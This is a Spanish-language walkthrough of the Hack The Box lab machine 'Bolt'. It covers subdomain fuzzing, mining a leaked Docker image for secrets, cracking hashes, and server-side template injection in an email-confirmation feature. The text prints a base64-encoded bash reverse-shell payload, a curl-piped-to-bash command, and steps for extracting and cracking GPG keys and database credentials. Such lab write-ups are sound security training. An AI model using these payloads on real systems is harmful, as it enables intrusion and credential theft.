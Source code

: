 # 10.10.11.114 - Bolt

![Bolt](https://user-images.githubusercontent.com/96772264/204356998-dea6b45d-78e4-40aa-a3ca-22b6d9b41c75.png)

-------------------

Puertos abiertos 22(ssh), 80(http), 443(https). Nmap dice que:
- Puerto 80: nginx
- Puerto 443: Passbolt (gestor de contraseñas open soyrde) passbolt.bolt.htb

Añado en el /etc/hosts -> bolt.htb y passbolt.bolt.htb.  
Si hago una peticion a bolt.htb -> "auth/login?redirect=/"   
En el navegador sale una página en blanco pero al inspeccionar sale como un banner del programa "Passbolt" y su subdominio.  

Si se hace por curl no se aplica la redirección. ```curl -s http://bolt.htb```
De ahí se puede sacar que usan "Admin LTE" y tres nombres: Joseph Garth, Bonnie Green, Jose Leos  
Si meto uno como test@bolt.htb dice que no está aprovado. Intente con los que obtuve como joseph.garth@bolt.htb  pero nada.  
![bolt1](https://user-images.githubusercontent.com/96772264/204357198-6cd9c7ef-48d8-41a1-933c-e595ff18edac.PNG)

Si pongo la ip 10.10.11.114 si que me resuelve:  

![bolt2](https://user-images.githubusercontent.com/96772264/204357209-15ab8c85-5894-48ff-bf60-890b96b34e52.PNG)

Una de las páginas es download, donde nos ofrecen una imagen docker. Es un archivo tar que al descomprimirlo se ve asi
```console
└─$ ls
 187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950
 1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c
 2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa
# Como 7 archivos de estos más...
 859e74798e6c82d5191cd0deaae8c124504052faa654d6691c21577a8fa50811.json
 manifest.json
 repositories
```
Si haces ```tree -fas``` ves que cada carpeta larga de estas tiene una archivo json otra layer.tar y otra VERSION.
Nos interesa el tar porque digamos que es un trozo de una imagen docker (o sea como una máquina virtual pero mas simple)
```console
└─$ tree -fas | grep "layer.tar" | awk '{print $NF}'
./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950/layer.tar
./1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c/layer.tar
./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa/layer.tar
# Y 8 mas
└─$ for file in $(tree -fas | grep "layer.tar" | awk '{print $NF}'); do echo "$file: "; 7z l $file; done > index.txt;
└─$ cat index.txt | grep -vE "terminfo|lib|cache|static"

# ./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950  # archivos de configuracion /etc
# ./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa  # archivos de la web 
# ./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2  # archivo sqlite
# ./745959c3a65c3899f9e1a5319ee5500f199e0cadf8d487b92e2f297441f8c5cf  # arhivos de la app de python
# ./3049862d975f250783ddb4ea0e9cb359578da4a06bf84f05a7ea69ad8d508dab  # mas archivos de la web
```
En el docker tenemos:
- usaurios ->  root, operator, postgress  
- corre cada 15 min estos run-parts /etc/periodic/15min  
- gunicorn en el puerto 5005   
- config.py:   
	SECRET_KEY: 'S#perS3crEt_007'  
	mail puerto 25 support@bolt.htb  
	base_de_datos: 127.0.0.1:5432 appseed:pass   postgresql/appseed-flask  

```console
└─$ sqlite3 db.sqlite3
sqlite> .tables  # User
sqlite> select * from User;
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||

└─$ john hash -w=/usr/share/wordlists/rockyou.txt
deadbolt	(?)
```
Entramos con admin:deadbolt

En la seccion de correos un tal Alexander Pierce nos ha bombardeado con emails diciendo que hay un problema con AdminLTE 3.0.
![bolt3](https://user-images.githubusercontent.com/96772264/204357340-5adaf59f-f0cb-47d7-bac4-7327855e6193.PNG)

En la parte de /profile hay mensajes de prueba de Jonathan Burke Jr., Sarah Ross y Adam Jones


Como no sabemos que mas hacer podemos buscar subdominios:
```console
└─$ wfuzz -c --hl 504 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.bolt.htb" -u http://bolt.htb/ -t 100
000000038:   302        3 L      24 W       219 Ch      "demo"                                               
000000002:   200        98 L     322 W      4943 Ch     "mail" 
```

demo.bolt.htb y main.bolt.htb nos piden creds, pero no funcionan la de antes 
En /demo nos podemos registrar, pero nos piden un "codigo de invitacion" Vamos a ver si lo encontramos en el repo
```console
└─$ grep -ri "invite code" --text
└─$ grep -ri "invite code" --text
41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/layer.tar
9a3bb655a4d35896e951f1528578693762650f76d7fb3aa791ac8eec9f14bc77/layer.tar
# Se vuelve a hacer un 7z x de los dos
└─$ grep -ri "invite code"
app/base/templates/accounts/register.html
app/base/forms.py  # En forms.py encontramos que el campo se llama invite_code
└─$ grep -ri "invite_code"
app/base/routes.py # -> XNSS-HSJW-3NGU-8XTJ
```
![bolt4](https://user-images.githubusercontent.com/96772264/204357522-839b5bfc-3466-4a9d-86a2-e4657457ae06.PNG)

Nos creamos un usaurio en esta seccion: cucuxii:cucuxii@bolt.htb con esta llave. Entramos en una web casi identica a 10.10.11.114/admin solo que existe ademas 
la seccion de Settings -> "Se requiere una verificacion por email para actualizar inofrmación personal"

En efecto nos llega un email al subdominio de mail (done nos logueamos con la misma cuenta) y le damos a confirmar. En el perfil no cambia nada pero nos 
llega otro mail diciendo que se ha efectuado el cambio "test"
![bolt5](https://user-images.githubusercontent.com/96772264/204357561-f0c0e927-0c12-4ee9-b48e-232f6abd0732.PNG)
![bolt6](https://user-images.githubusercontent.com/96772264/204357579-2f85c332-9252-4b0b-a9cd-13d2cecec1d2.PNG)
![bolt7](https://user-images.githubusercontent.com/96772264/204357594-73fa7c76-f2bd-42d8-aa24-35c9681af8ee.PNG)

Como se refleja el output podemos robar un payload STTI {{7\*7}} Nos llega otro email con la palabra 49, o sea todo funciona.

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'" | base64  -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi82NjYgMD4mMScK
#{{cycler.__init__.__globals__.os.popen('echo YmFz... | base64 -d | bash').read()}}
```
Al darle al email de confirmacion, si nos hemos puesto en escucha con nc ```sudo nc -nlvp 666```
Si nos ponemos a analizar el sistema con nuestro [cript](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh)
```console
www-data@bolt:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
```
- Usuarios: root, eddie y clark, nosotros somos www-data     
- Existe la ruta /var/mail, reflejo del subdominio de mail, interesante si pudieramos leer el de eddie  -> permiso denegado
- Logs donde pueden haber creds: /var/log/nginx/passbolt-access.log /var/log/passbolt/error.log   
- EN /etc/passbolt hay una capreta gpg -> (hay llaves GPG dentro) y tambien un passbolt.conf con creds para la base de datos "passbolt:rT2;jW7<eY8!dX8}pQ8%"
- El puerto 3306 o sea sql está abierto   

```console
www-data@bolt:/etc/passbolt$ mysql -upassbolt -p
Enter password: rT2;jW7<eY8!dX8}pQ8%
mysql> show databases;  # passboltdb
mysql> use passboltdb;
mysql> sho tables; 
# 'users' no tiene nada, pero 'secret' tiene un mensaje GPG (se ve de un formato similar a las llaves)

-----BEGIN PGP MESSAGE-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY
pCLSEEzPBiIGQ9VauHpATf8YZnwK1JwO/BQnpJUJV71YOon6PNV71T2zFr3H
oAFbR/wPyF6Lpkwy56u3A2A6lbDb3sRl/SVIj6xtXn+fICeHjvYEm2IrE4Px
...
```
Esta contraseña sirve para loguearse como eddie. Intento romper la llave privada con gpg2jhon pero no hay suerte

Si corro el script otra vez, eddie posee muchos archivos .config/google-chrome/
En la busqueda de backups tambien nos muestran esta carpeta, en concreto carpeta Default con muchos archivos que acaban en "000003.log"

En la carpeta de /google-chrome hay demasiadas cosas asi que hacemos un filtrado por cosas como "gpg" o "passbolt" ```grep -riE "passbolt|gpg"``` 
Damos con esta ruta todo el rato ```Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js``` pero no está está la llave GPG aunque la mencionan.
Buscamos a ver si esta ruta existe en otro lado: ```grep -ri "didegimhafipceonhjepacocaffmoppf"``` y damos con: "/Private Local Extension/Settings/"

Dentro hay un archivo extremadamente largo llamado cat 000003.log con llaves gpg en un one liner (o sea hechas un churro)
```
-----BEGIN PGP PRIVATE KEY BLOCK-----\\r\\nVersion: OpenPGP.js v4.10.9\\r\\nComment: https://openpgpjs.org\\r\\n\\r\\nxcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi\\r\\nfjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk\\r\\ncpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU\\r\\nRNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU\\r\\n+XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a\\r\\nIf70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDq
```
Abrimos una al azar con VIM y la formateamos bien: -> :%s/\\\\r/\r/g y :%s/\\\\n//g  
```console
└─$ gpg2john llave1.key > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
merrychristmas   (Eddie Johnson)
└─$ gpg --import llave1.key  # metes la contraseña merrychristmas
└─$ gpg -d message
gpg: cifrado con clave de 2048 bits RSA, ID F65CA879A3D77FE4, creada el 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Firmado el sáb 06 mar 2021 16:33:54 CET
```
Esa es la contraseña de root.

